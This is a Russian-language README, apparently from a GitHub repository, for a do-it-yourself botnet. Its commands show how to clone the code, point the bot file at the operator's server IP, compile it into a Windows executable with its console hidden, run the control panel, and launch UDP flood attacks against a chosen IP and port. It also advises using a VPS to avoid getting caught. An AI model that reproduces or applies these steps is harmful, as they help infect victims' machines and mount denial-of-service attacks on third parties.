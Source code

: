 <h1 align="center">Подпишись на мой телеграмм <a href="https://t.me/samurai_figure" target="_blank">N∆RI</a> 
<img src="https://github.com/blackcater/blackcater/raw/main/images/Hi.gif" height="32"/></h1>
<h3 align="center">Простой бот-нет своими руками ot N∆RI</h3>
Можно также использовать как панель для VPS ботнета <br>
Клонируем гит <br>
 
```shell
git clone https://github.com/Samuraianonweb/bot
```
<br>
cd bot
<br>
Чтобы не попасться , лучше использовать VPS<br>

Чтобы узнать свой(VPS) ip $ ifconfig <br>
Редактируем файл smss.py

<br>
run=False
	def __init__(self, connect:Tuple[str,int]=("вставляем свой ip",9999)) -> None:
<br>

Когда всё подготовленно , осталось зделать с Python  в EXe файл<br>

Установка pyinstaller<br>
pip install pyinstaller

После полной установки в нашем директории bot <br>
Приступаем к билду exe <br>
pyinstaller --onefile --noconsole smss.py<br>
Флаг --onefile собирает всё в один файл<br>
Флаг --noconsole делает так чтобы при запуске скрывалась консоль <br>
После того как наш файл exe создался можно начать с панели <br>

Запуск панели 
python Server.py

Вводим help и видем всё настройки 
update - Для обновления листа ботов 
list - Показать активных ботов 
Команда атаки<br>
attack udp <ip> <port> <time in second> <thread>
